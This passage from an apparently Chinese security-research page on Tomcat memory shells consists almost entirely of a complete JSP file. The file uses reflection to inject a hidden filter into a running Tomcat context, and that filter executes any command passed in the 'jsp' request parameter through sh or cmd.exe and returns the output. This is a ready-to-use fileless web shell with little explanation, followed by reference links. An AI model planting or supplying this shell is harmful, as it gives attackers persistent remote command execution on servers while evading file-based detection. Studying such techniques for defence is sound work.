<div align=center></div>

### JSP版本

```java
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="java.io.PushbackInputStream" %><%--
  Created by IntelliJ IDEA.
  User: h3rmesk1t
  Date: 2022/8/15
  Time: 1:32 下午
  To change this template use File | Settings | File Templates.
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<html>
  <head>
    <title>Filter</title>
  </head>
  <body>
    <%
      Field requestFiled = request.getClass().getDeclaredField("request");
      requestFiled.setAccessible(true);
      Request req = (Request) requestFiled.get(request);
      StandardContext standardContext = (StandardContext) req.getContext();

      Field configs = standardContext.getClass().getDeclaredField("filterConfigs");
      configs.setAccessible(true);
      Map filterConfigs = (Map) configs.get(standardContext);

      String FilterName = "H3rmesk1t_Filter";
      if (filterConfigs.get(FilterName) == null) {
        Filter filter = new Filter() {
          @Override
          public void init(FilterConfig filterConfig) {

          }

          @Override
          public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
            HttpServletRequest httpServletRequest = (HttpServletRequest) servletRequest;
            if (httpServletRequest.getParameter("jsp") != null) {
              boolean isLinux = true;
              String osType = System.getProperty("os.name");
              if (osType != null && osType.toLowerCase().contains("win")) {
                isLinux = false;
              }

              String[] cmds = isLinux ? new String[] {
                      "sh",
                      "-c",
                      httpServletRequest.getParameter("jsp")
              } : new String[] {
                      "cmd.exe",
                      "/c",
                      httpServletRequest.getParameter("jsp")
              };

              InputStream inputStream = Runtime.getRuntime().exec(cmds).getInputStream();
              Scanner scanner = new Scanner(inputStream).useDelimiter("\\a");
              String output = scanner.hasNext() ? scanner.next() : "";
              servletResponse.getWriter().write(output);
              servletResponse.getWriter().flush();
              return;
            }
            filterChain.doFilter(servletRequest, servletResponse);
          }

          @Override
          public void destroy() {

          }
        };

        Class<?> FilterDef = Class.forName("org.apache.tomcat.util.descriptor.web.FilterDef");
        Constructor filterDefDeclaredConstructor = FilterDef.getDeclaredConstructor();
        FilterDef filterDef = (FilterDef) filterDefDeclaredConstructor.newInstance();
        filterDef.setFilter(filter);
        filterDef.setFilterName(FilterName);
        filterDef.setFilterClass(filter.getClass().getName());
        standardContext.addFilterDef(filterDef);

        Class<?> FilterMap = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
        Constructor filterMapDeclaredConstructor = FilterMap.getDeclaredConstructor();
        FilterMap filterMap = (FilterMap) filterMapDeclaredConstructor.newInstance();
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(FilterName);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());
        standardContext.addFilterMapBefore(filterMap);

        Class<?> ApplicationFilterConfig = Class.forName("org.apache.catalina.core.ApplicationFilterConfig");
        Constructor<?> applicationFilterConfigDeclaredConstructor = ApplicationFilterConfig.getDeclaredConstructor(Context.class, FilterDef.class);
        applicationFilterConfigDeclaredConstructor.setAccessible(true);
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) applicationFilterConfigDeclaredConstructor.newInstance(standardContext, filterDef);
        filterConfigs.put(FilterName, filterConfig);

        System.out.print("Inject Successfully!");
      }
    %>
  </body>
</html>
```

<div align=center></div>


# 参考

 - [Tomcat介绍-Y4tacker](https://github.com/Y4tacker/JavaSec/blob/main/5.%E5%86%85%E5%AD%98%E9%A9%AC%E5%AD%A6%E4%B9%A0/Tomcat/Tomcat%E4%BB%8B%E7%BB%8D/Tomcat%E4%BB%8B%E7%BB%8D.md)

 - [Tomcat 内存马技术分析（一）—— Filter型](https://www.anquanke.com/post/id/266240#h3-16)

 - [Java安全之基于Tomcat实现内存马](https://www.cnblogs.com/nice0e3/p/14622879.html)

 - [JAVA内存马](https://www.yongsheng.site/2022/05/08/%E5%86%85%E5%AD%98%E9%A9%AC(%E4%B8%80)/)